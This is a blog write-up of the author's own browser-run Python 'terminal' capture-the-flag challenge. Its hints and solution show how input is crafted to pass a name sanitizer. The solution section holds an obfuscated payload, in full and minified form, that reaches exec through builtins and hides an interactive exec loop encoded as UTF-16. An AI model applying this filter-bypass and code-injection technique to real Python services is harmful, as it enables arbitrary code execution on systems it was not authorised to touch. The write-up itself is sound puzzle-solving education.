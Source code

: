 08/06/2024 17:00
# Terminal Challenge

A writeup for the <DiscreetLink href='https://terminal.danielc.rocks'>hangman</DiscreetLink> challenge on my homepage. As far as I know it's a completely original challenge; if anything I'm proud of the implementation and how real the terminal feels. The core idea came from talking with a friend about writing a python file that sanitizes to a fixed string, reminiscent of <DiscreetLink href='https://en.wikipedia.org/wiki/Quine_(computing)'>quines</DiscreetLink>.

I used <ProminentLink href='https://pyodide.org/en/stable/'>Pyodide</ProminentLink> to run python in the browser (pretty cool!), which I heard about from my teacher at school, who used it to make the (well-known?) <DiscreetLink href='https://www.pythonsponge.com/'>Python Sponge</DiscreetLink>.

## Hint 1
<Spoiler>
The hangman game really is <ProminentLink href='https://youtu.be/le5uGqHKll8?t=550'>unbeatable</ProminentLink>. The goal of the challenge is to take advantage of the name loading and use that to read the flag.
</Spoiler>

## Hint 2
<Spoiler>
Look at the name verification function. If we can write some python code that sanitizes to `ErroryournamedoesntseemtobevalidIllcallyouMrUnimportant`, then we can input that as the name and it will pass the verification and thus be written to a file. Then we can run that file just like we ran `game.py`.

<br/>
So the goal is: write a python file that reads `/flag.txt`, whose alphanumeric characters in order are `Erroryour...`.
</Spoiler>

## Hint 3
<Spoiler>
Can you spot any python keywords in the sanitized error message? Research the built-in python functions and see which ones might be useful.

<br/>

We can have variables because underscores are allowed in python variable names.
Also we have numbers, by doing something like:

```py
_ = '' < '_' # one (compares ascii values)
__ = _+_+_+_ # four
___ = __*__ # sixteen
```
</Spoiler>

## Solution
<Spoiler>
What follows is one possible solution, that allows arbitrary code execution with a shell, so in particular you can read the flag file. Can you come up with an alternative?

<br/>

For readability, I've named all variables something representative, but they can all be replaced with underscores (see the minified version). The solution uses a <ProminentLink href='https://github.com/clemg/pythongolfer?tab=readme-ov-file#3---qa'>trick</ProminentLink> of encoding a utf-8 string in utf-16 to garble it.

```py
'Erroryo'
U,R,N = 'urn'
'amedoesn'
T,S = 'ts'
'eemtob'
EVAL = eval
STR = EVAL(S+T+R)
I,D = 'id'
DIR = EVAL(D+I+R)
'IllcallyouMrUn'
ONE = ''<'_'
SEVEN = ONE+ONE+ONE+ONE+ONE+ONE+ONE
BUILTINS = STR(EVAL)[ONE:SEVEN-ONE]+I+N+S
FUNCS = DIR(EVAL('__import__("'+BUILTINS+'")'))
'ant'

EXEC = FUNCS[-SEVEN*SEVEN-ONE-ONE]
BYTES = FUNCS[-SEVEN*SEVEN-SEVEN-SEVEN-ONE-ONE]

# the garbage characters are a utf16 encoding of the utf8 shellcode, the decoded version is:
# while True: exec(input());

SHELLCODE = BYTES+'("桷汩⁥牔敵›硥捥椨灮瑵⤨㬩","'+U+STR(SEVEN+SEVEN+ONE+ONE)+'")['+STR(ONE+ONE)+':]'

EVAL(EXEC+'('+SHELLCODE+')')
```

<br/>

<div className='inline'>
And the reduced version:
</div>

__COPIABLE__
```py
'Erroryo';________,_____,_________='urn';'amedoesn';__________,______='ts';'eemtob';___=eval;____,___________='id';'IllcallyouMrUn';_=''<'_';__=_+_+_+_+_+_+_;___((____________:=___(___________+____+_____)(___('__import__("'+(_______:=___(______+__________+_____))(___)[_:__-_]+____+_________+______+'")')))[-__*__-_-_]+'('+____________[-__*__-__-__-_-_]+'("桷汩⁥牔敵›硥捥椨灮瑵⤨㬩","'+________+_______(__+__+_+_)+'")['+_______(_+_)+':]'+')');'ant'
```
</Spoiler>


## Cheese solution
<Spoiler>
The way I got python to run in the browser was with <DiscreetLink href='https://pyodide.org/en/stable/'>pyodide</DiscreetLink> and a <DiscreetLink href='https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Using_web_workers'>web-worker</DiscreetLink>.
So the python runs client-side (!) i.e. this is all really a fake prison-break environment. In particular the flag file has to be generated somehow, so the flag is somewhere in the source.

<br/>

So I had to find somewhere to hide the loading of the flag so that it wasn't completely obvious. It's in the main thread so at least there are no revealing network requests (initially it was in `init.py`).

<br/>

It's base-64 encoded; look for it in F12 -&gt; Sources.
</Spoiler>